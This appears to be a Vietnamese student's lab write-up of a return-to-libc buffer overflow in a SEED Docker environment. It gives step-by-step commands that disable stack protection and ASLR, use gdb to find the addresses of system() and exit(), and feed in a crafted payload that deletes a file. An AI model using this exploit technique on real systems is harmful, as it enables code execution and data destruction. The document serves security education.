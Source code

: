 #### Lab3: exploit return-to-lib-c vulnerability, delete file "dummy" in directory /tmp/dummy using environment variable.
***
* 1: ánh xạ vào máy ảo docker
  ```
  docker run -it --privileged -v "C:/Users/Win 10/Seclabs:/home/seed/seclabs" img4lab
  ```
* 2: cd vào bof

  
  ![image](https://github.com/user-attachments/assets/706a5be7-0790-4efd-93a9-0b64c6ed6b1d)

* 3: biên dịch file vuln.c => vuln.out
  ```
  gcc -g vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
  ```
  ![image](https://github.com/user-attachments/assets/6b20822e-61e4-471c-a4cf-8fcaebb7df23)

* 4: biên dịch file asm
  ```
  nasm -g -f elf file_del.asm
  ```
  ```
  ld -m elf_i386 -o file_del file_del.o
  ```
  ![image](https://github.com/user-attachments/assets/7c1146f4-4773-4aaf-90aa-4b0219cf5531)

* 5: xem tất cả file đã tạo ra, tạo thêm file 'dummyfile'
  ```
  ls
  ```
  ![image](https://github.com/user-attachments/assets/db9b95b2-1864-4f68-80c8-e228f241caa1)

* 6: chuyển về bash cũ
  ```
  sudo ln -sf /bin/zsh /bin/sh
  ```
  ![image](https://github.com/user-attachments/assets/877f139c-9819-4fd3-bbcd-10f9b71ee7f0)

* 7: tắt cấp phát địa chỉ ngẫu nhiên
  ```
  sudo sysctl -w kernel.randomize_va_space=0
  ```
  ![image](https://github.com/user-attachments/assets/93ff3210-b89f-41e1-b38e-9b2e36530002)

* 8: lấy đường dẫn:
  ```
  pwd
  ```
  ![image](https://github.com/user-attachments/assets/c9f5f91c-8f14-4bb0-88dd-6c6cd0566d7e)

  `/home/seed/seclabs/bof`

* 9: tạo biến toàn cục
  ```
  export my_path="/home/seed/seclabs/bof/file_del"
  ```
  ![image](https://github.com/user-attachments/assets/c128f9b8-7847-4a9c-a8a4-78687ed85be5)

* 10: điểm qua stackframe
  ![image](https://github.com/user-attachments/assets/f7d2f327-eb8e-4083-97b9-ce9337835b2b)

* 11: vào gdb và lấy địa chỉ của system(), exit(), và biến my_path
  ![image](https://github.com/user-attachments/assets/187584d7-b061-406e-9889-1a7b1c3249e2)

  
  `start`
  ```
  p system
  ```
  ```
  p exit
  ```
  ```
  find /home/seed/seclabs/Software/buffer-overflow/file_del
  ```
  ![image](https://github.com/user-attachments/assets/d709d597-e33e-46eb-a8cd-9453f6826662)

  Địa chỉ system: `0xf7e50db0` => `\xb0\x0d\xe5\xf7`

  Địa chỉ exit: `0xf7e449e0` => `\xe0\x49\xe4\xf7`

  Địa chỉ my_path: `0xffffdf53` => `\x53\xdf\xff\xff`
* 12: chạy chương trình tấn công
  ```
  r $(python -c "print('a'*68 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\x53\xdf\xff\xff')")
  ```
  ![image](https://github.com/user-attachments/assets/4efc4b08-32c4-4cd1-bc9b-d1109727475b)

  ![image](https://github.com/user-attachments/assets/3143f40d-2525-47f0-98b4-45a8203c0fad)


  => dummyfile đã bị xóa   
  
